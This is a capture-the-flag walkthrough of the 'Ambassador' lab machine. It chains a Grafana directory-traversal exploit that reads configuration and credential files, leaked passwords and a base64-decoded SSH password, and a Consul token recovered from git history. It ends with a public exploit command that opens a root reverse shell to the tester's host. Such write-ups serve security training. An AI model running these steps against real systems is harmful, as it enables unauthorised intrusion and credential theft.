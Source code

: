 # Ambassador

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 5000 10.129.228.56
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-07 05:49 EDT
Nmap scan report for 10.129.228.56
Host is up (0.015s latency).
Not shown: 65531 closed tcp ports (conn-refused)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
3000/tcp open  ppp
3306/tcp open  mysql
```

### Port 80

The only interesting thing here is the mentioning of the user `developer`:

<figure><img src="../../../.gitbook/assets/image (1434).png" alt=""><figcaption></figcaption></figure>

Other than that, there was not much here.

### Grafana LFI --> Creds

Port 3000 was hosting a Grafana instance.

<figure><img src="../../../.gitbook/assets/image (1458).png" alt=""><figcaption></figcaption></figure>

This version of Grafana is vulnerable to public exploits:

```
$ searchsploit grafana                
----------------------------------------------------------- ---------------------------------
 Exploit Title                                             |  Path
----------------------------------------------------------- ---------------------------------
Grafana 7.0.1 - Denial of Service (PoC)                    | linux/dos/48638.sh
Grafana 8.3.0 - Directory Traversal and Arbitrary File Rea | multiple/webapps/50581.py
----------------------------------------------------------- ---------------------------------
```

We can confirm that this works:

<figure><img src="../../../.gitbook/assets/image (2790).png" alt=""><figcaption></figcaption></figure>

Grafana stores a configuration file at `/etc/grafana/grafana.ini`, so let's start there. We can find some passwords within that:

```
# default admin user, created on startup
;admin_user = admin

# default admin password, can be changed before first start of grafana,  or in profile settings
admin_password = messageInABottle685427
```

With this, we can login to the admin panel:

<figure><img src="../../../.gitbook/assets/image (3342).png" alt=""><figcaption></figcaption></figure>

Within the configuration files, we can find a `mysql.yaml` file.

<figure><img src="../../../.gitbook/assets/image (878).png" alt=""><figcaption></figcaption></figure>

We can't edit it, and there wasn't any credentials in it:

<figure><img src="../../../.gitbook/assets/image (2887).png" alt=""><figcaption></figcaption></figure>

However, maybe we can use the LFI to read this file on the machine itself.&#x20;

{% embed url="https://grafana.com/docs/grafana/latest/administration/provisioning/" %}

Based on this documentation, it is located in`/etc/grafana/provisioning/datasources`.&#x20;

<figure><img src="../../../.gitbook/assets/image (2008).png" alt=""><figcaption></figcaption></figure>

Using these creds, we can login to the MySQL database on the machine:

```
$ mysql -u grafana -h 10.129.228.56 -p
Enter password: 
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MySQL connection id is 11
Server version: 8.0.30-0ubuntu0.20.04.2 (Ubuntu)

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MySQL [(none)]>
```

Then, we can use the `whackywidget` database to find the password for `developer`.&#x20;

```
MySQL [whackywidget]> select * from users\g
+-----------+------------------------------------------+
| user      | pass                                     |
+-----------+------------------------------------------+
| developer | YW5FbmdsaXNoTWFuSW5OZXdZb3JrMDI3NDY4Cg== |
+-----------+------------------------------------------+

$ echo YW5FbmdsaXNoTWFuSW5OZXdZb3JrMDI3NDY4Cg== | base64 -d
anEnglishManInNewYork027468
```

We can then login as `developer` via `ssh` using this password.

## Privilege Escalation

### Consul Token --> RCE

I was wondering where that `whackywidget` dataabse came from and why it had the password for the user instead of the `grafana` database. Within the `/opt` directory, we can find some additional folders:

```
developer@ambassador:/opt$ ll
total 16
drwxr-xr-x  4 root   root   4096 Sep  1  2022 ./
drwxr-xr-x 20 root   root   4096 Sep 15  2022 ../
drwxr-xr-x  4 consul consul 4096 Mar 13  2022 consul/
drwxrwxr-x  5 root   root   4096 Mar 13  2022 my-app/

developer@ambassador:/opt/my-app$ ls
env  whackywidget
```

`consul` is an application used to configure and spin up applications with databases:

{% embed url="https://github.com/hashicorp/consul" %}

The application on the machine starts on port 8500, and we can also find out the version running:

```
developer@ambassador:/opt/my-app/env$ netstat -tulon
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       Timer
tcp        0      0 127.0.0.1:33060         0.0.0.0:*               LISTEN      off (0.00/0/0)
tcp        0      0 0.0.0.0:3306            0.0.0.0:*               LISTEN      off (0.00/0/0)
tcp        0      0 127.0.0.1:8300          0.0.0.0:*               LISTEN      off (0.00/0/0)
tcp        0      0 127.0.0.1:8301          0.0.0.0:*               LISTEN      off (0.00/0/0)
tcp        0      0 127.0.0.1:8302          0.0.0.0:*               LISTEN      off (0.00/0/0)
tcp        0      0 127.0.0.1:8500          0.0.0.0:*               LISTEN      off (0.00/0/0)

developer@ambassador:/opt/my-app/env$ consul --version
Consul v1.13.2
```

There are some exploits for this:

{% embed url="https://github.com/owalid/consul-rce" %}

However, we first need to find the token within the files. Within the `/opt/my-app` directory, there's a `.git` repository.

```
developer@ambassador:/opt/my-app$ ls -la
total 24
drwxrwxr-x 5 root root 4096 Mar 13  2022 .
drwxr-xr-x 4 root root 4096 Sep  1  2022 ..
drwxrwxr-x 4 root root 4096 Mar 13  2022 env
drwxrwxr-x 8 root root 4096 Mar 14  2022 .git
-rw-rw-r-- 1 root root 1838 Mar 13  2022 .gitignore
drwxrwxr-x 3 root root 4096 Mar 13  2022 whackywidget
```

If we check the logs, we can find the token:

```
developer@ambassador:/opt/my-app$ git log -p -2
commit 33a53ef9a207976d5ceceddc41a199558843bf3c (HEAD -> main)
Author: Developer <developer@ambassador.local>
Date:   Sun Mar 13 23:47:36 2022 +0000

    tidy config script

diff --git a/whackywidget/put-config-in-consul.sh b/whackywidget/put-config-in-consul.sh
index 35c08f6..fc51ec0 100755
--- a/whackywidget/put-config-in-consul.sh
+++ b/whackywidget/put-config-in-consul.sh
@@ -1,4 +1,4 @@
 # We use Consul for application config in production, this script will help set the correct values for the app
-# Export MYSQL_PASSWORD before running
+# Export MYSQL_PASSWORD and CONSUL_HTTP_TOKEN before running
 
-consul kv put --token bb03b43b-1d81-d62b-24b5-39540ee469b5 whackywidget/db/mysql_pw $MYSQL_PASSWORD
+consul kv put whackywidget/db/mysql_pw $MYSQL_PASSWORD
```

Afterwards, just run the PoC above on the machine itself.&#x20;

```bash
developer@ambassador:~$ python3 exploit_consul.py --rhost 127.0.0.1 --rport 8500 --lhost 10.10.14.13 --lport 443 --token bb03b43b-1d81-d62b-24b5-39540ee469b5
```

This would give us a reverse shell as `root`.

<figure><img src="../../../.gitbook/assets/image (3192).png" alt=""><figcaption></figcaption></figure>
